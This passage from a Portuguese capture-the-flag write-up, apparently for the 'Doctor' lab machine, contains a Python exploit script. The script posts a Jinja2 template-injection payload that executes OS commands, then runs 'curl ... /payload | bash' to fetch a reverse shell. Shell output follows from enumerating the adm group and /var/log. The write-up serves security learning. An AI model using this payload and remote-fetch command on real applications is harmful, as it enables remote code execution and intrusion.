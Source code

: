```python

# Create user
payload = {'username':username,'email':email,'password':password,'confirm_password':password,'submit':'Sign Up'}
r = s.post(url+'/register',data=payload)

# Login
payload = {'email':email,'password':password,'submit':'Login'}
r = s.post(url+'/login?next=%2Fhome',data=payload)

# Create message
{% raw %}
title = "{% for x in ().__class__.__base__.__subclasses__() %}{% if \"warning\" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen(request.args.input).read()}}{%endif%}{%endfor%}"
{% endraw %}
payload = {'title':title,'content':'content','submit':'Post'}
r = s.post(url+'/post/new',data=payload)

# Get Reverse shell
command = requests.utils.quote('curl -L http://'+ip+'/payload | bash')
r = s.get(url+'/archive?input='+command)
```

## User flag

Depois de obter o shell reverso, [fiz o upgrade dele para ter acesso a funcionalidades de auto-complete, etc](https://blog.mrtnrdl.de/infosec/2019/05/23/obtain-a-full-interactive-shell-with-zsh.html), e iniciei o processo de enumeração:

- Os usuários existentes na máquina, com base nas home folders existentes são **shaun** e **web**;

- Verificando os grupos dos quais o usuário **web** é membro, notei que a conta é membro do grupo **adm**:

  ```bash
  web@doctor:/home$ id
  uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
  ```

  - O grupo **adm** no Linux permite acesso a arquivos localizados no diretório `/var/log`, que possivelmente pode permitir que consigamos alguma informação sensivel dentro das logs de componentes do sistema como webservers e tarefas agendadas (cron).

### Analizando as logs em /var/log

Então para iniciar esta análise vamos buscar quais componentes, alem dos defaults de sistema, temos dentro desta máquina:

```bash
web@doctor:/var/log$ ls -ld */
drwxr-x---  2 root              adm             4096 Jan 31 00:00 apache2/
drwxr-xr-x  2 root              root            4096 Sep  7 12:13 apt/
drwxr-xr-x  2 root              root            4096 Jan 31 00:00 cups/
drwxr-xr-x  2 root              root            4096 Apr  8  2020 dist-upgrade/
drwxr-xr-x  3 root              root            4096 Apr 23  2020 hp/
drwxrwxr-x  2 root              root            4096 Jul 26  2020 installer/
drwxr-sr-x+ 3 root              systemd-journal 4096 Jul 20  2020 journal/
drwxr-xr-x  2 root              root            4096 Sep  5  2019 openvpn/
drwx------  2 root              root            4096 Apr 23  2020 private/
drwx------  2 speech-dispatcher root            4096 Jan 19  2020 speech-dispatcher/
drwxr-x---  2 root              adm             4096 Jan 30 19:13 unattended-upgrades/
```
